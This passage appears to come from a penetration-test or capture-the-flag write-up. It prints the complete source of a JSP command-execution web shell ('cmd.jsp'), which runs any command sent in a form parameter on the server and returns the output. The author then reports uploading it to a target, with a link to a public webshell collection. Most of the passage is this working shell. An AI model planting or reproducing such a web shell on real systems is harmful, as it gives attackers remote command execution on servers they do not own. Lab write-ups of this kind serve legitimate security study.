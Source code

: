```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

Next, I tried uploading a `cmd.jsp` simple webshell from [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp) 

![](/assets/img/2-virusbucket-success.png)
